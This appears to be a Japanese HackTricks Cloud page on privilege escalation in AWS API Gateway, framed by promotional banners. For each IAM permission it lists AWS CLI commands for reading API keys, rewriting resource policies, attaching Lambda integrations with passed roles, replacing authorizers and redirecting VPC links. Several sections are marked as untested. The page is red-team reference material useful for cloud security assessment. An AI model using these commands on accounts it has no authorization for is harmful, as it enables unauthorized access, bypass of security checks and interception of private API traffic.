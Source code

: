# AWS - Apigateway Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Apigateway

詳細については、以下を確認してください：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

この権限を使用すると、設定されたAPIのAPIキーを生成できます（リージョンごと）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在的な影響:** この技術では権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:GET`

この権限を使用すると、設定されたAPIの生成されたAPIキーを取得できます（リージョンごと）。
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在的な影響:** この技術では権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

これらの権限を持つことで、APIのリソースポリシーを変更し、自分自身が呼び出すためのアクセスを得て、APIゲートウェイが持つ可能性のあるアクセスを悪用することができます（脆弱なラムダを呼び出すなど）。 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在的な影響:** 通常、この技術で直接的に権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:PutIntegration`、`apigateway:CreateDeployment`、および `iam:PassRole` の権限を持つ攻撃者は、**IAMロールが付与されたLambda関数を使用して既存のAPI Gateway REST APIに新しい統合を追加することができます**。攻撃者はその後、**Lambda関数をトリガーして任意のコードを実行し、IAMロールに関連付けられたリソースにアクセスできる可能性があります**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: Lambda関数のIAMロールに関連付けられたリソースへのアクセス。

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:UpdateAuthorizer` および `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存のAPI Gatewayオーソライザーを変更**して、セキュリティチェックを回避したり、APIリクエストが行われる際に任意のコードを実行したりすることができます。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: セキュリティチェックのバイパス、APIリソースへの不正アクセス。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:UpdateVpcLink`の権限を持つ攻撃者は、**既存のVPCリンクを異なるネットワークロードバランサーを指すように変更でき、プライベートAPIトラフィックを不正または悪意のあるリソースにリダイレクトする可能性があります**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在的影響**: プライベートAPIリソースへの不正アクセス、APIトラフィックの傍受または中断。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
